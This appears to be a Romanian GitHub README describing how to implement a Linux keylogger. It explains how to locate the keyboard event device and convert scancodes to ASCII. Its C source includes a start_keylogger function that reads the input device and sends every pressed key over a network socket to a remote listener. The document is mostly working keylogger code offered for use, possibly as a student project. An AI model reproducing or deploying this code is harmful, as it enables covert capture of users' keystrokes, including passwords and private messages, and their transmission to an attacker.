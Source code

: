 # Metoda de implementare

Din fisierul `/dev/inputs` se ia prin regex event-ul asociat tastaturii `/dev/inputs/eventsX` si de unde se vor prelucra tastele apasate de utilizator printr-o variabila event care va detecta apasarea tastelor
Event-ul respectiv trebuie extras din fisierul `/proc/bus/input/devices`
Codurile citite prin variabila de `event` sunt de tip **scancode** si trebuiesc formatate in format **ASCII** 
Formatarea se va face printr-o mapare directa.
Caracterele speciale (**CTRL**, **ESC**, **BACKSPACE** etc.) vor fi scrise sub o forma speciala (ex: \<*BACKSPACE*\>)
KeyLogger-ul va afisa tastele apasate in fisierul aferent utilizatorului.

```c
typedef struct {
    int key_code;
    char ascii_char;
} KeyCodeMap;

// Mapping of XT key codes to ASCII characters
KeyCodeMap xt_to_ascii_map[] = {
    {0x1E, 'a'}, {0x30, 'b'}, {0x2E, 'c'}, {0x20, 'd'}, {0x12, 'e'}, {0x21, 'f'}, {0x22, 'g'},
    {0x23, 'h'}, {0x17, 'i'}, {0x24, 'j'}, {0x25, 'k'}, {0x26, 'l'}, {0x32, 'm'}, {0x31, 'n'},
    {0x18, 'o'}, {0x19, 'p'}, {0x10, 'q'}, {0x13, 'r'}, {0x1F, 's'}, {0x14, 't'}, {0x16, 'u'},
    {0x2F, 'v'}, {0x11, 'w'}, {0x2D, 'x'}, {0x15, 'y'}, {0x2C, 'z'}, {0x02, '1'}, {0x03, '2'},
    {0x04, '3'}, {0x05, '4'}, {0x06, '5'}, {0x07, '6'}, {0x08, '7'}, {0x09, '8'}, {0x0A, '9'},
    {0x0B, '0'}, {0x1C, '\n'}, {0x39, ' '}, {0x0E, '\b'}, {0x0F, '\t'}, {0x1A, '['}, {0x1B, ']'},
    {0x27, ';'}, {0x28, '\''}, {0x29, '`'}, {0x2B, '\\'}, {0x33, ','}, {0x34, '.'}, {0x35, '/'},
    {0x0D, '='}, {0x0C, '-'}
};

char xt_to_ascii(int key_code) {
    int map_size = sizeof(xt_to_ascii_map) / sizeof(xt_to_ascii_map[0]);
    for (int i = 0; i < map_size; i++) {
        if (xt_to_ascii_map[i].key_code == key_code) {
            return xt_to_ascii_map[i].ascii_char;
        }
    }
    
    return '\0';  
}

void start_keylogger(int sock, const char *device_path) {
    struct input_event ev;
    int fd;
    ssize_t n;
    char buffer[256];

    fd = open(device_path, O_RDONLY);
    if (fd == -1) {
        perror("Cannot open input device");
        return;
    }

    while (1) {
        n = read(fd, &ev, sizeof(struct input_event));
        if (n == (ssize_t)-1) {
            perror("Read error");
            break;
        }
        
        if (ev.type == EV_KEY) {  
            //printf("Key event: code=%d, value=%d\n", ev.code, ev.value);
            if (ev.value == 1) {  
                snprintf(buffer, sizeof(buffer), "%c", xt_to_ascii(ev.code));
                //printf("Sending: %s\n", buffer);
                send(sock, buffer, strlen(buffer), 0);
                fflush(NULL);
            }
        }
    }

    close(fd);
}
```



